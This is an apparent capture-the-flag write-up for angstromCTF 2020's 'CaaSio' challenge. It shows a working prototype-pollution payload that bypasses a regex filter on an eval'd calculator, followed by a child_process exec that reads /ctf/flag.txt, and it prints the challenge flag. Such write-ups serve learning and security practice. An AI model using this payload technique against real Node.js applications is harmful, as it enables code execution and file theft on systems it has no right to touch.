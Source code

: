 ```yaml
---
ctf: ångstromCTF
year: 2020
tags:
  - web
  - javascript
---
```


# ångstromCTF 2020 - CaaSio

For CaaSio we had access to a calculator. The source is [here](index.js).

Later in the execution our query is `eval`'d so obviously we need to run something interesting there.

There are a lot of details involved so I'll start with the basic ones.

```js
if (name.length > 10) {
    console.log("Your name is too long, I can't remember that!");
    return;
}
user.name = name;
if (user.name == "such_a_trusted_user_wow") {
    user.trusted = true;
}
```

The code above stops us from inputing a name bigger than 10 characters,
so no way you'll get your `such_a_trusted_user_wow`.

```js
while (user.queries < 3)
```

This stops us from making more than 3 queries, but we'll only need two!

```js
if (prompt.length > 200) {
    console.log("That's way too long for me!");
    continue;
}
```

To finish the boring stuff, we cannot send a command with more than 200 characters.
Still, no problem.

Let's get to the interesting stuff.

```js
let reg = /(?:Math(?:(?:\.\w+)|\b))|[()+\-*/&|^%<>=,?:]|(?:\d+\.?\d*(?:e\d+)?)/g
// ......
if (!user.trusted) {
    prompt = (prompt.match(reg) || []).join``;
}
```

Given we are not trusted, queries we send are filtered by `reg`.
Effectively stopping most possible attempts.

```js
Object.freeze(global);
Object.freeze(Math);
```

This stops us from modifying `Math`, however it is only a shallow freeze.
This means that members of `Math` are not frozen, we will be taking advantage of that to get our trusted execution going!

So, starting with the regex, we can write `Math.any_kind_of_text`,
including `Math.__proto__`.
While `__proto__` cannot be reassigned, we can extend it,
however we cannot write `Math.__proto__.obj`, as `obj` will be cut out.

Entering lambdas!
We can write `()=>` and while this does not make a multi line lambda, it allows us to make one action at a time.
Enabling composition!

We have our ingredients together!
First we need to get trusted.

```js
((Math)=>(Math.trusted=1))(((Math)=>(Math.__proto__))(Math))
```

You may be confused, in normal JS the code above looks like:

```js
function (Math) {
    Math.trusted = 1;
}(
    function (Math) {
        return Math.__proto__;
    }(Math)
);
```

Which in turn looks more like:

```js
function f(x) {
    return x.__proto__
}

function g(x) {
    return x.trusted = 1;
}

g(f(Math));
```

Why does this give us a trusted user?

`Math` inherits from `Object`, see [here](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Math),
which means that when we mutate `Math.__proto__` we are mutating `Object.__proto__`, thus mutating every object,
hence why `user.trusted` will be set to `1`.

So now we just need to read the file.

```js
const { exec } = require("child_process");

exec("cat /ctf/flag.txt", (error, stdout, stderr) => {
    console.log(`stdout: ${stdout}`);
});
```

Running the code above, minified, will yield the flag.

```
actf{pr0t0typ3s_4re_4_bl3ss1ng_4nd_4_curs3}
```